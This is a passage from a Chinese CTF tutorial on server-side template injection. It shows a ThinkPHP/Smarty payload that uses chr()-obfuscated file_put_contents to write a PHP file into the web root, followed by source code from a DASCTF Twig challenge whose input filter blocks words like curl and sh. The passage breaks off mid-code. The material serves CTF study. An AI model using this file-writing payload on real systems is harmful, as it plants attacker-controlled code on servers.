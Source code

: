 

TP5.0框架调用smarty的话我们可以构造payload

```php
{:file_put_contents(chr(119).chr(46).chr(112).chr(104).chr(112),chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(112).chr(104).chr(112).chr(105).chr(110).chr(102).chr(111).chr(40).chr(41).chr(59).chr(63).chr(62))} //这里生成在public目录下一个w.php 内容是phpinfo() 可以自行修改
```



# 0x02 Twig SSTI





官方文档：

https://twig.symfony.com/doc/1.x/deprecated.html



## 例题1 DSACTF

由一道CTF赛题分析Twig SSTI利用方式



在上周末刚刚结束的安恒6月赛DASCTF中，有一道web题涉及 Twig 模板注入，而两个月前的 volgactf 也涉及了同样的内容，但所使用的版本不同。本文通过CTF题的解法来分析 Twig 模板注入的利用方式



题目源码

```php
<?php
require_once "mail/smtp.class.php";
require_once "mail/smtp.send.php";
require_once "libs/common.func.php";
include 'vendor/twig/twig/lib/Twig/Autoloader.php';

function mailCheck($s) {
    if (preg_match('/\\\|\/|\~|&|\^|\`|\*|\?/i',$s))
    {
        alertMes('damn hacker!', './index.php');
        return false;
    }

    if (!preg_match('/libs|smtp|curl|dev|index\.php|ftp|backdoor|sh/i', $s) )
    {
        if (  preg_match_all('/@/', $s) === 1 )
        {
            $arr = explode('@',$s);
            $domain = end($arr);
            if (!preg_match('/[^a-z0-9._-]/i', $domain))
            {
                return true;
            }
        }
    }

    return false;
}

function alertMes($mes, $url)
{
    echo "<script>
            alert('{$mes}');
            location.href='{$url}';
```